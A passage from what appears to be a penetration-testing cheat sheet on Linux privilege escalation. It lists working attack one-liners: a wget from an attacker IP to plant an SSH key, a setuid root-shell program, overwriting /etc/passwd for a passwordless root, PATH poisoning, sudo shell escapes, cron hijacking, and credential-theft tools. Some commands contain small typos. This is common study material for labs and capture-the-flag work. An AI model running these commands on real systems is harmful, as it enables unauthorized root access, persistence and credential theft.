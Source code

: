 ```
stty rows [rows] columns [134]
```
You should know how many rows and columns you have because when you typed in `stty -a` earlier, it printed out this information. The terminal type can vary depending on what kind of terminal you have, but I used "xterm-256color" as my terminal type.

### Linux Privesc

Find the version of linux: `uname -a`

Add public key to list of authorized SSH keys: `echo $(wget http://[your IP]/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys `

C Code for becoming root (required for some exploits): `echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c`

If /etc/password has incorrect permissions, execute this code to instantly become root: `echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su`

Changing PATH: If you can change the PATH variable, run `export PATH=.$PATH` to add the current folder to the PATH variable. Create a poisoned executable by typing in `echo "usermod -aG sudo [username]" >> /tmp/yo` and `chmod +x yo`. Replace yo with the name of a binary that is executed by root by another command or process. If you're still confused, have a look at [this](http://techblog.rosedu.org/exploiting-environment-variables.html).

Add to sudoers: Run `usermod -aG sudo [username]`. You could also try seeing if you have permission to edit the /etc/sudoers file using `visudo`. Sometimes, if you're lucky, you can instantly get root by doing `sudo su`.

Print commands that we are allowed to run as sudo: `sudo -l`

If you see a command in this list that allows you execute code, then you can execute code as root. For example, if we are allowed to use the find command as sudo, you can use `sudo find /home -exec sh -i\;`. Another example: if we are allowed to use the python command as sudo, you can use `sudo python -c "import pty; pty.spawn('/bin/bash');"`. You can use [GTFOBins](https://gtfobins.github.io/) to get a list of things that you can do when you are able to execute something as root.

Exploit cron jobs: You can find cron jobs using `ls -la /etc/cron.d`. If you can write to any of the files controlling the cron job, you can write your own command at the end of a cron job and have it be executed as root. For example, if you see a cron job called "update", you can search for the sh file that is running that cron job using `find / -perm 2 -type f 2>/dev/null | grep update`, and then you can modify it.

Print out binaries that have the SUID bit set: `find / -perm -u=s type f 2>/dev/null`. Sometimes [GTFOBins](https://gtfobins.github.io/) can help you escalate privileges if you see an SUID binary.

Script to extract passwords from known locations: [gimmecredz](https://github.com/0xmitsurugi/gimmecredz)

Enumeration scripts: 
* [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)
* [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
* [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

